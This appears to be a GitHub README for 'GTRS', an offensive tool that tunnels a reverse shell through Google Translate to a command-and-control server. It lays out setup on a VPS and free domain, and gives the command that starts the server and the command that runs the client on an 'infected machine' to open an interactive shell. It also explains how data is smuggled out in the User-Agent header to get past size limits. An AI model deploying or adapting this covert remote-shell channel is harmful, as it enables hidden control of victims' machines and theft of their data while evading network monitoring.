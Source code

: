 # GTRS - Google Translator Reverse Shell

This tools uses [Google Translator](https://translate.google.com) as a proxy to send arbitrary commands to an infected machine.
```
[INFECTED MACHINE] ==HTTPS==> [GOOGLE TRANSLATE] ==HTTP==> [C2] 
```

# Environment Configuration
First you need a VPS and a domain, for the domain you can get a free one on [Freenom](https://freenom.com/). With your VPS and domain, just edit the client script, and set your domain on line 5.

# Usage
Start the server.py on your VPS
```bash
python2.7 server.py
Server running on port: 80
Secret Key: e294a11e-bb6f-49ed-b03a-9ec42be55062
```
It will provide you secret key which will be used on the client.sh, run the client on a computer with access to [Google Translator](https://translate.google.com), providing the secret key generated by the server.
```bash
bash client.sh e294a11e-bb6f-49ed-b03a-9ec42be55062
```
Now you have an interactive shell using named pipe files, **YES** you can `cd` into directories.

# Poc 
[![CODE_IS_CHEAP_SHOW_ME_THE_DEMO](http://img.youtube.com/vi/02CFsE0k96E/0.jpg)](http://www.youtube.com/watch?v=02CFsE0k96E)

# Known issues 
 * ~~Google translate does not forward POST data, so there's a limit on the amount of data that your server can receive, for example, you'll probably not being able to read a big file like `.bashrc`.~~ `Problem fixed using User-Agent header to sent data`.
 * It's not a problem, but I just don't know if there's a rate limit on Google Translator
 * The client script works on Mac an Linux, but on Linux you need to install the `xmllint` which is on `libxml2-utils`
